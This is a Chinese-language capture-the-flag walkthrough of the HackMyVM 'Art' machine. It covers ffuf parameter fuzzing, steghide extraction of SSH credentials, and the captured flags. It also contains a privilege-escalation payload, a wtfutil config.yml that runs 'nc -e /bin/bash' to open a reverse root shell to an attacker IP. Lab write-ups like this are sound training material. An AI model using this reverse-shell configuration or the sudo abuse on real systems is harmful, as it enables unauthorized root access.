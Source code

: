 # Quick

2024-11-04 https://hackmyvm.eu/machines/machine.php?vm=Art

## IP

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

访问 index.php 看到是图片，查看 html 源码，发现提示 `<!-- Need to solve tag parameter problem. -->`

ffuf 找到了隐藏的参数 tag：

```
ffuf -c -t 20 -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -u http://192.168.5.40/index.php?FUZZ=ls -fs 170
```

尝试是否有 LFI 漏洞，但是没有找到能读取的系统文件：

```
ffuf -c -t 20 -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt -u http://192.168.5.40/index.php?tag=FUZZ -fs 70
```

继续看看有没有其隐藏的文件可以读取：

```
ffuf -c -t 20 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://192.168.5.40/index.php?tag=FUZZ -fs 70
```

发现了个参数值：beauty

访问 http://192.168.5.40/index.php?tag=beauty 发现了一张奶牛图片 dsa32.jpg ，将其下载，查看是否有隐写内容。经过 exiftools binwalk steghide 后，发现隐写信息

```
steghide info dsa32.jpg

Enter passphrase:
  embedded file "yes.txt":
    size: 17.0 Byte
    encrypted: rijndael-128, cbc
    compressed: yes
```

解压出隐写信息：

```
steghide --extract -sf dsa32.jpg

cat yes.txt
lion/shel0vesyou
```

使用 lion/shel0vesyou ssh 登陆，得到了 user flag：

```
lion@art:~$ cat user.txt
HMVygUmTyvRPWduINKYfmpO
```

寻找提权至 root 的方法，sudo -l 发现：

```
(ALL : ALL) NOPASSWD: /bin/wtfutil
```

创建 config.yml 配置文件，利用 wtfutil 反弹 shell：

```
wtf:
  grid:
    columns: [35, 35, 35]
    rows: [10, 10, 10, 10]
  refreshInterval: 1
  mods:
    todo:
      checkedIcon: "X"
      colors:
        checked: gray
        highlight:
          fore: "black"
          back: "orange"
      enabled: true
      position:
        top: 0
        left: 0
        height: 2
        width: 1
      title: "shell"
      refreshInterval: 3600
      args: ['-e','/bin/bash','192.168.5.3','8888']
      cmd: "nc"
      type: cmdrunner
```

```
nc -lvnp 8888

sudo /bin/wtfutil --config=config.yml
```

得到了反弹的 root shell：

```
find / -type f -name root.txt 2>/dev/null
/var/opt/root.txt

cat /var/opt/root.txt
mZxbPCjEQYOqkNCuyIuTHMV
```
